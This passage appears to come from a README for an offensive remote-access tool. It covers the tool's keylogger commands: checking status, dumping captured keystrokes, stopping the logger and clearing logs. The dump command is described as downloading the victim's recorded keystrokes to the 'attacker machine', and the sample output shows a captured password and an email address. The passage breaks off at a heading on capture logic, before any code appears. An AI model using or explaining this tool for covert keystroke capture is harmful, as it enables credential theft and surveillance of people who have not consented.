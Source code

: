 ##### Check Status

```
keylog_status
```

Shows:

- Running status
- Log file path
- Buffer size
- File size

##### View and Download Captured Keystrokes

```
keylog_dump
```

**What happens:**

1. Saves any buffered keystrokes to the log file
2. Automatically downloads the log file to your attacker machine
3. Saves as `keylog_dump_YYYYMMDD_HHMMSS.txt` with timestamp
4. Displays the content in the terminal

**Output example:**

```
[*] Downloading keylog file...
[+] Keylog file downloaded: keylog_dump_20251004_143022.txt

=== Keylog Content ===
[2025-10-04 14:25:12] Hello World
[2025-10-04 14:26:45] password123
[2025-10-04 14:27:10] username@email.com
=== End of Keylog ===
```

**Note:** The downloaded file is saved in the same directory where you run `server.py`

##### Stop Keylogger

```
keylog_stop
```

Stops the keylogger and saves any remaining logs

##### Clear Logs

```
keylog_clear
```

Deletes the log file and clears the buffer

##### How It Works

###### Key Capture Logic
